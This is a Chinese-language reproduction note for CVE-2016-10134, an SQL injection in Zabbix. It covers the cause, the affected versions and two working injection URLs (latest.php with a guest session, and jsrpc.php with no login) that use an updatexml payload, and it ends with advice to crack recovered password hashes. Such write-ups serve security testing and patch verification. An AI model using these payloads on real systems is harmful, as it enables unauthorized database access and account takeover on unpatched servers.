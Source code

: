# CVE-2016-10134

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：**  zabbix SQL 注入漏洞





## 0x01 漏洞原理

原理是 insert 插入时未对用户输入的数据进行过滤，可以进行显错注入。

## 0x02 影响范围

```
zabbix 2.0.x
2.2.x
2.4.x
3.0.0-3.0.3
```

## 0x03 漏洞复现

**已有用户凭据**

存在guest空密码账号，无需登录可爆出漏洞：

以 Guest 用户登录后，查看 Cookie 中的zbx_sessionid，复制后 16 位字符：

![Untitled](image/Untitled.png)

将这 16 个字符作为 sid 的值，访问

```
http://your-ip:8080/latest.php?output=ajax&sid=16位ID&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

![Untitled](image/Untitled%201.png)

**无用户凭据**

这个漏洞也可以通过 jsrpc.php 触发，且无需登录：

```
http://IP:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```

![Untitled](image/Untitled%202.png)

![Untitled](image/Untitled%203.png)

将用户密码 MD5 还原即可登录。